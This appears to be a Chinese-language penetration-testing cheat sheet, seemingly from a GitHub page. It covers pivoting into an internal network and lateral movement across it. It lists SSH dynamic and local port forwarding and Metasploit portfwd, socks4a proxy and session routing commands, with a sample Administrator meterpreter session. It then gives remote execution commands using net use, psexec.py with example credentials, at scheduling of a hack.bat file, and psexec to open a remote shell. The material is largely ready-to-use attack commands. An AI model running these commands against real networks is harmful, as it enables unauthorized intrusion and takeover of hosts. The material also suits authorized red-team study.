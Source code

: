 ```
```

### 开启代理

获取10.10.1.1/24网段访问权限。
ssh动态转发 (本地开启socks代理)

```
ssh -qTfNCD 0.0.0.0:8081 root@10.10.1.110 (在10.10.2.120上执行)
```

外网机器IP可访问内网机3306：
```
ssh -L 3306:外网机器ip:3306   user@隔离机器IP    -N
```

ssh静态转发 (通过本机10.10.3.130的20000端口可以获得10.10.1.1/24网段访问权限)

```
ssh -qTfNCL 0.0.0.0:20000:10.10.2.120:8081 root@10.10.3.130
```
 (通过10.10.3.130,将10.10.2.120的8081端口转发到本地20000端口)

metasploit:


```
portfwd add -l 4445 -p 445 -r 10.10.10.111 (把内网另外一台主机的445端口转到在msf的4445端口)

msf开启socks4代理, 并添加内网路由, msf内部模块可直接通过session路由访问内网, 外部程序可通过socks4代理访问内网。

use auxiliary/server/socks4a | run (msf开启socks4代理, 默认是1080端口)
msf exploit(handler) > sessions
Active sessions
===============
  Id  Type                     Information                                      Connection
  --  ----                     -----------                                      ----------
  1   meterpreter x86/windows  MICROSOF-CA98DC\Administrator @ MICROSOF-CA98DC  192.168.71.196:58308 -> 192.168.71.167:443 (192.168.71.167)
msf exploit(handler) > route add 192.168.71.196/24 1
[*] Route added
msf exploit(handler) > route
IPv4 Active Routing Table
=========================
  Subnet             Netmask            Gateway
  ------             -------            -------
  192.168.71.196     255.255.255.0      Session 1
[*] There are currently no IPv6 routes defined。
msf exploit(handler) >
```

### 横向执行命令


```
net use x: \\[目标IP]\[地址] [域用户password] /user:[域]\[username]

(python版的psexec) psexec.py administrator:123456@192.168.71.165 -port 445

at \\192.168.200.100 15:00 c:\hack.bat

psexec \\192.168.1.2 c:\hack.bat【执行单条命令】
psexec \192.168.200.100 cmd【半交互shell】
```
